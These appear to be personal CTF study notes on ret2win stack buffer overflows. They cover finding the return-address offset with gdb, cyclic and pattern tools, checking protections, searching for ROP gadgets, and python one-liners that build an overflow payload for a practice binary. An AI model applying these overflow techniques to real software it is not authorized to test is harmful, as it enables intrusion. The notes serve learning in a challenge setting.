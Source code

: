 ### N o T e S

---

In ret2win, we need to execute the win function to get the flag by overwriting the EIP.

```py
| Finding the offset using GDB for the return address |
- file <filename>
- info functions
- cyclic 100
- run and check the RIP register which is the instruction pointer
- cyclic -l <the four characters found>
- Find the return address, objdump, ghidra (disass <function name>)

For 64 bit ELF, take the first 4 bytes of RSP to find the offset, it works differently than 32 bit design. We just need to find offset values to overflow the buffer and RBP to reach the RIP/Return address. For this, I use pattern create and pattern offset in gdb-peda and we check the register RBP register.

python3 -c 'print("A"*offset+"return address")' > payload
./ret2win < payload

endianess - rabin2 -I vuln
```
`RET2WIN with parameters`

![image](https://github.com/ckc9759/CTF_resources/assets/95117634/28a224bb-a00c-42bd-80c2-ec9967cd919e)
```bash
ropper --file <filename> --search "pop rdi"
```

---

```py
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
Control the EIP or RIP

Alternatively, inside gdb use pattern create 200
```



Find the offset we use the value in `RSP` register.

- First two steps, add permissions using chmod  +x file name.  
- Then, check the options and protections enabled using checksec --file.  
- Aim of the pwn challenge is generally to overflow the buffer and overwrite the return address.
- It redirects the program towards a function which outputs the flag.

#### Things to do in classic ret2win :

Use Ghidra and GDB. 

```py
Steps : 
disassemble flag
(assume offset is 40)

We use the memory address of the first function in disassemble flag
(assume it is 0x0000000000401196)

python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' 

(add this to a file payload)
python3 - C 'print "A" * 40 + "\x96\x11\x40\x00\x00\x00\x00\x00" ' > payload

echo "Fake_flag" > flag.txt
(Dummy flag for local file)

Now, run < payload 
(fake_flag will be printed)

./zoom2win < payload
fake_flag Segmentation fault

Now when we run the netcat command with the payload we get our flag.
```

---

Thank you

